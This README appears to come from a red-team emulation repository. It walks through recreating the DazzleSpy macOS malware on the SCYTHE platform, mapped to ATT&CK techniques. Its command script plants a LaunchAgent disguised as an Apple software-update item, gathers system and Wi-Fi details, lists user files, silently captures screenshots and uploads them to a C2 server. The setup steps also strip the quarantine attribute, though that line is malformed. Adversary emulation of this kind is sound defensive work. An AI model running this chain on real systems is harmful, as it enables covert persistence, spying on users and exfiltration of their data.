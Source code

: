 ##DazzleSpy 

This threat is based on the [WeLiveSecure](https://www.welivesecurity.com/2022/01/25/watering-hole-deploys-new-macos-malware-dazzlespy-asia/) threat report released on January 25,2022. 

# Dazzle Spy 
1. Download and import the threats in JSON format to your SCYTHE instace
2. Download the Virtual File System (VFS) files under DazzleSpy/VFS. 
3. Upload the VFS file to your SCYTHE VFS in the following location: VFS:/shared/DazzleSpy
4. Create a new campaign DazzleSpy with HTTPS and the communication option. You can import the `config.json` or manually add 
`--cp yourdomain.com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10` 
5. Import Existing Threat: *DazzleSpy*
6. Start Campaign
7. Download Campaign Client
7. In ~/Downloads run `chmod +x *.osx` and then run `sudo xattr =r =d com.apple.quareantine *.osx`
8. `./*.osx`


### To Emulate: 
```bash
loader --load downloader 
downloader --src VFS:/shared/threats/DazzleSpy/com.apple.softwareupdate.plist --dest /tmp/com.apple.softwareupdate.plist
loader --unload downloader
loader --load run
run mv /tmp/com.apple.softwareupdate.plist ~/Library/LaunchAgents/com.apple.softwareupdate.plist
run launchctl load ~/Library/LaunchAgents/com.apple.softwareupdate.plist #T1569
run whoami #T1033
run ioreg -d2 -c IOPlatformExpertDevice | awk -F\" '/IOPlatformUUID/{print $(NF-1)}'
run ioreg -l | grep IOPlatformSerialNumber #T1082
run df -h  #T1082
run sw_vers # T1082
run date #T1124
run /System/Library/PrivateFrameworks/Apple80211.framework/Resources/airport -I | awk -F: '/ SSID/{print $2}' #T1016
run csrutil status #T1068
run id -G `whoami`
run ls -lah ~/Desktop ~/Documents ~/Downloads  #T1083
run ps aux # T1057
run screencapture -t png -x /tmp/monitor1.png /tmp/monitor2.png /tmp/monitor3.png /tmp/monitor4.png #T1113
loader --load uploader
uploader --remotepath /tmp/monitor1.png #T1041
uploader --remotepath /tmp/monitor2.png #T1041
uploader --remotepath /tmp/monitor3.png #T1041
uploader --remotepath /tmp/monitor4.png #T1041
loader --unload uploader
# Cleanup
run launchctl remove com.apple.softwareupdate
run rm ~/Library/LaunchAgents/com.apple.softwareupdate.plist
run rm /tmp/monitor*.png
loader --unload run
controller --shutdown
```

